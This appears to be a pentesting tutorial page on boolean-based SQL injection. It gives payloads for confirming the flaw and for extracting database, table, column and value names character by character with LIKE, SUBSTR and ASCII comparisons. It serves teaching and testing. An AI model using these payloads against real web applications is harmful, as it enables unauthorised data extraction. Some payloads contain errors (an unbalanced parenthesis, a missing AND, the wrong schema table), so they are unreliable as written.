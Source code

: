 # Boolean-based SQLi

[Go back](../sqli.md)

<div class="row row-cols-lg-2"><div>

Boolean-based SQLi involve injecting SQL bit by bit while only having one output: ok or failed.

For instance, if you have a page telling you if a user exists. If this page return "true" for a username `toto`:

```text!
GET /account?username=toto
```
</div><div>

If you try to inject some SQL "`toto' AND 1=0-- -`"

```text!
GET /account?id=toto' AND 1=0-- -
```

The response will indicate that the username does not exist, but as you know it exists from the previous request, we can infer that the trailing injected code failed (`AND 1=0-- -`).
</div></div>

<hr class="sep-both">

## Manual Boolean-based SQLi

<div class="row row-cols-lg-2"><div>

Manually exploiting a Boolean-based SQLi is hard and lengthy. You will do exactly what we do during [Union-based SQL](union_sqli.md#manual-union-based-sqli), aside from the fact that you work letter by letter.

* **Number of columns selected** - unchanged
* **Find the type of each column** - unchanged
* **Find which columns are displayed** - unchanged
* **Find the DBMS used** - letter by letter
* **Extract data** - letter by letter

➡️ All examples below are with `database()`, but you will have to use comparisons to find the DMBS, the database, the table, the columns, and even to extract the values in the table.

Before testing each letter, we should check the length of the text you want to guess to mentally prepare ourselves. 

```text!
' AND LENGTH(database()) > 5 -- -
' AND LENGTH(database()) > 15 -- -
' AND LENGTH(database()) > 12 -- -
' AND LENGTH(database()) == 14 -- --
[...]
```

Then, we may use `LIKE` to rather easily find the name:

```text!
' AND database() LIKE '%' -- - // test; should always be true
' AND database() LIKE 'a%' -- - // starting
' AND database() LIKE 'b%' -- -
[...]
' AND database() LIKE 'm%' -- - // ok
' AND database() LIKE 'ma%' -- -
' AND database() LIKE 'mb%' -- -
[...]
' AND database() LIKE 'my_example' -- - // found 😢
```
</div><div>

There may be multiple databases starting with the same letter. To know if there are more, you have to exclude the one you found.

```text!
' AND database() != 'my_example' AND database() LIKE 'my_%' -- -
[...]
```

For some conditions, you may use something like this:

```text!
-- fetch table name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name like '%') -- -
[...]
-- fetch column name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name='table_name' AND column_name LIKE '%') -- -
[...]
-- fetch values
' 1 IN (SELECT 1 FROM database_name.table_name WHERE column_name LIKE '%') -- -
```

You can't always use LIKE, and may have to fall back to ASCII.

```text!
WHERE ASCII(SUBSTR(text,1,1) = ASCII('a')
-- extract the first character (pos=1, len=1)
-- of a text 'text'. Convert the character to ASCII
-- and, check if this is the same as the ASCII of 'a'

-- find the ASCII (do it inside YOUR DBMS)
SELECT ASCII('A') -- 65

-- then use
WHERE ASCII(SUBSTR(text,1,1)) = 65
-- some are using "65 to HEX" = X'41'
WHERE SUBSTR(text,1,1) = CAST(X'41' as char)
```
</div></div>
